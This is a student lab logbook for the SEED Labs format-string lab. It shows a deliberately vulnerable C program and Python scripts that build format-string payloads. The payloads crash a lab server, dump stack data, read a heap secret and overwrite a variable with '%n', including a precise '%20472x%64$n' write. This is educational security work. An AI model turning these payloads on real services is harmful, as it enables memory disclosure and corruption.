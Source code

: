 # **Week #7**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/

In this seed lab we are going to use the `format.c` program.

```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";

void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}

int main(int argc, char **argv)
{
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```

## Task 1 - Crashing the Program

In this task we first tested the server executing `echo hello | nc 10.9.0.5 9090` that sends a message saying "hello" to the server and saw that it returned the message properly. After looking in the code we can tell that if we send a significant number of `%s` it would probably crash.

We send a file with `%s%s%s%s%s%s%s%s%s%s%s` using the command `cat file | nc 10.9.0.5 9090` and the program crashed.

![screenshot1](screenshots/LOGBOOK7/screenshot1.png)

## Task 2: Printing Out the Server Program’s Memory
### Task 2.A: Stack Data
The goal is to print out the data on the stack using a suficient ammount of "%x" for the program to print out the first four bytes of our input.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("%x").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*64 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![screenshot2](screenshots/LOGBOOK7/screenshot2.png)

![screenshot3](screenshots/LOGBOOK7/screenshot3.png)
We can see our input being showed in the console.

### Task 2.B: Heap Data
The goal is to print the secret message stored in the heap area. To achieve this we need to put the address of the secret message that is in binary format into the format string. In most computers to store an address 0xAABBCCDD (four bytes on a 32-bit machine) in memory, the least significant byte 0xDD is stored in the lower address while the most significant byte 0xAA is stored in the upper address. Therefore, when we store the address in a buffer, we need to store it in the following order: 0xDD, 0xCC, 0xBB and 0xAA.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("0x080b4008").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![screenshot4](screenshots/LOGBOOK7/screenshot4.png)
The secret message is `"A secret message"`.

## Task 3 - Modifying the Server Program’s Memory
### Task 3.A: Change the value to a different value
In this task we needed to change the value of the `target` variable to something else.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x"*63 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

To change the target variable we used 63 `%x` again and then used `%n` that overwites the memory.

![screenshot5](screenshots/LOGBOOK7/screenshot5.png)
We can see that the original target variable was `0x11223344` and we changed it to `0x000000f0`.

### Task 3.B: Change the value to 0x5000
In this task we were asked to change the `target` variable again but this time to a specific value, which is `0x5000`.
After converting it into a decimal number, we realized we had to have `20480` characters before the "n".

So to print 0x5000 (20480), we need to call `%x` 20476 (20480 - 8 (4 initial bytes of the string + 4 more bytes)) times before the `n` call.

We used the following python program:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20472x%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![screenshot6](screenshots/LOGBOOK7/screenshot6.png)
We can see that the target variable value changed to `0x00005000`.

